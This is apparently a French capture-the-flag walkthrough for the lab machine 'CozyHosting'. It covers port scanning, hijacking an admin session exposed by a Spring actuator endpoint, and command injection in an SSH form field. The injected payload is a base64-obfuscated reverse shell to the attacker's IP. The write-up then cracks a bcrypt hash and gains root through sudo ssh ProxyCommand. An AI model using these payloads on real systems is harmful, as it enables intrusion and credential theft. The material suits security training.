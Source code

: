   # CozyHosting

	echo "10.10.11.230 cozyhosting.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.230 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.230 -oN nmap.txt
	feroxbuster --silent -u http://cozyhosting.htb
	dirb 
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http nginx 1.18.0 (Ubuntu)  
	8000/tcp open http-alt?  
	8001/tcp open vcom-tunnel?  
	8083/tcp open us-srv?  
	8084/tcp open websnp?  
	8087/tcp open simplifymedia?  
	8088/tcp open radan-http?  
	8089/tcp open unknown

Quelques pages intéressantes pour le site du port 80 : 
<br>	  http://cozyhosting.htb/error
<br>	  http://cozyhosting.htb/login
<br>	  http://cozyhosting.htb/admin
<br>	  http://cozyhosting.htb/actuator 

Ce dernier lien amène sur une page contenant un fichier JSON, mais il y a aussi un répertoire **/actuator/sessions** contenant des numéros ressemblant à des cookies : 

> {"4F348676237277F41E9D3A090A6C962E":"UNAUTHORIZED","9F43555484B4D2F9F2CD0DAFEDD36249":"kanderson","0D1C93626FCA31EB3D35893B255A83CD":"kanderson","A916BC0AB3F9FBD5B11A0B0124576924":"UNAUTHORIZED","2978E55AF45A3F7F53A30F7B050B4F2B":"kanderson","35A7E3432573357D6BC2FF8A3D8C590D":"UNAUTHORIZED"}

Ces numéros sont au même format que le "JSESSIONID" que l'on peut voir dans Burp en interceptant les requêtes vers **/login** et **/admin** 

En testant tous les cookies avec le Repeater de Burp sur la page http://cozyhosting.htb/admin on finit par accéder au panneau d'administration avec le paramètre "Cookie: JSESSIONID=9F43555484B4D2F9F2CD0DAFEDD36249"

Plus bas dans la page on voit un système de patching automatique, et en envoyant une requête de test on remarque un nom de page extrêmement intéressant dans Burp : 

> POST /executessh HTTP/1.1

En terminant la requête on obtient une erreur qui est également très intéressante : 

> ssh: Could not resolve hostname aaa: Temporary failure in name resolution

Cela sous-entend qu'il y a une exécution de commande et donc éventuellement une possibilité d'injection. J'ai directement testé avec un reverse-shell parce que la fonctionnalité permet justement de se connecter un hôte et c'est exactement ce que l'on veut.

Voir https://github.com/six2dez/pentest-book/blob/master/exploitation/reverse-shells.md#linux pour les payloads obfusqués donnant un reverse-shell.

Payload utilisé : 
	
	;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDQvNDQzIDA+JjE="|base64${IFS}-d|bash;

Paramètres à envoyer : 

	host=10.10.16.44&username=%3Becho%24%7BIFS%7D%22c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDQvNDQzIDA%2BJjE%3D%22%7Cbase64%24%7BIFS%7D-d%7Cbash%3B

Réception sur ma machine : 
	
	rlwrap nc -nvlp 443

### Élévation de privilèges :

	python3 -c "import pty ; pty.spawn('/bin/bash');"

On ne peut pas faire grand chose mais il y a un fichier .jar potentiellement intéressant dans le dossier /app où on atterrit après l'injection de commande. La commande "scp" semble ne pas fonctionner alors j'ai ouvert un port en tant que serveur web avec Python : 

	python3 -m http.server 9999

Plus qu'à le télécharger et à le dézipper chez moi : 

	wget http://10.10.11.230:9999/cloudhosting-0.0.1.jar
	cloudhosting-0.0.1.jar

On trouve des identifiants de connexion PostgreSQL dans le fichier **./BOOT-INF/classes/application.properties** 
En se connectant à la base de données et en la fouillant on trouve des mots de passe hashés, et il y en a un qui est assez faible pour être cracké : 

	psql postgresql://localhost:5432/cozyhosting -U postgres
	SELECT * FROM users;
	...
	echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt
	hashid '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' -m
	hashcat -a 0 -m 3200 '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'  ~/wordlists/rockyou.txt
	
Sur la machine il n'y a qu'un autre utilisateur nommé Josh et le mot de passe trouvé fonctionne pour lui, il n'y a plus qu'à pivoter et terminer l'élévation de privilèges  : 

	ssh josh@10.10.11.230
	cat user.txt
	sudo -l

> User josh may run the following commands on localhost:  
&nbsp;&nbsp;&nbsp;&nbsp;(root) /usr/bin/ssh *

Voir https://gtfobins.github.io/gtfobins/ssh/#sudo

	sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
	cat /root/root.txt


